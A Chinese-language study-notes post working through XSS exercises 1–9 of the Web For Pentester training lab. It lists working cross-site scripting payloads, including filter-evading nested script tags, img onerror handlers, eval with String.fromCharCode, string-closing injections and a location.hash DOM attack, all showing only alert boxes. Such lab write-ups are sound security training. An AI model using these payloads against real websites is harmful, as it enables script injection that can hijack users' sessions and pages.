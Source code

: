 ```yaml
---
title: security-1 Xss练习笔记
date: 2019-04-28 21:51:46
categories: 网络安全课程笔记
---
```

# 说明
- Web For Pentester 平台 针对Xss-Example 1-10
- 写这篇文章我用\转义html标签，因为这篇文章用markdown写的
<!--more-->

参考网站：

- https://blog.csdn.net/shinpachi8/article/details/54425439
- https://blog.csdn.net/qq_20307987/article/details/51284169
- https://blog.csdn.net/weixin_40871137/article/details/81706515


# Web For Pentester

## XSS-Example 1
```
<\script> alert(1) <\/script>
```

## XSS-Example 2
- 进行了一些过滤，script标签被过滤掉了

```
<\sc<\script>ript> alert(1) <\/sc<\/script>ript>
```
## XSS-Example 3
```
<-sc<-script>ript> alert(1) <-/sc<-/script>ript>
```
## XSS-Example 4
- 在本例中，script被完全列入黑名单，如果请求中包含script脚本，则停止执行
- 这时候需要用img标签

```
<\img src=liu.jpg onerror=alert("xss")>
```
## XSS-Example 5
- 在本例中，alert被过滤了，只要带alert，页面会返回error
- 使用JavaScript的eval和String.fromCharCode()，在不直接使用alert这个单词的情况下得到一个警告框fromcharcode()将把一个整数(十进制值)解码为对应的字符
- 可使用的方法如下

```
<\img src=liu.jpg onerror=prompt('1')>
<\img src=liu.jpg onerror=confirm('1')>
<\script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))<\/script>
```
- fromCharCode() 可接受一个指定的 Unicode 值，然后返回一个字符串,题目中
String.fromCharCode(97,108,101,114,116,40,49,41)
相当于alert(1)
- eval()是程序语言中的函数，功能是获取返回值，不同语言大同小异，函数原型是返回值 = eval( codeString )，如果eval函数在执行时遇到错误，则抛出异常给调用者

## XSS-Example 6
- 查看源代码
发现将输入到url的脚本输出到

```
var $a= "hacker<\script>alert(1)<\/script>";
```
- 利用javascipt语法
闭合前面的";
中间加上语句alert(1);
结束注释后面的分号//

```
";alert(1);//
```
## XSS-Example 7
- 和Example相似
- 不同之处在与闭合是单引号

```
';alert(1);//
```
## XSS-Example 8
- 在表单中的<都被转义，查看源代码可看到效果
- 在url中闭合from标签，可实现xss

```
/"><\script>alert(1)<\/script>
```
## XSS-Example 9
- hash 属性是一个可读可写的字符串，该字符串是 URL 的锚部分（从 # 号开始的部分）

```
location.hash
location.hash.substring(1) //从#后第一个字符开始读取
```
因此payload：
```
example9.php#<\script>alert(1)<\/script>
```
** 注意 :**

- 博主用的ie浏览器可以实验成功
- 火狐和谷歌浏览器都会对<转码如下：

```
%3Cscript%3Ealert(1)%3C/script%3E
```
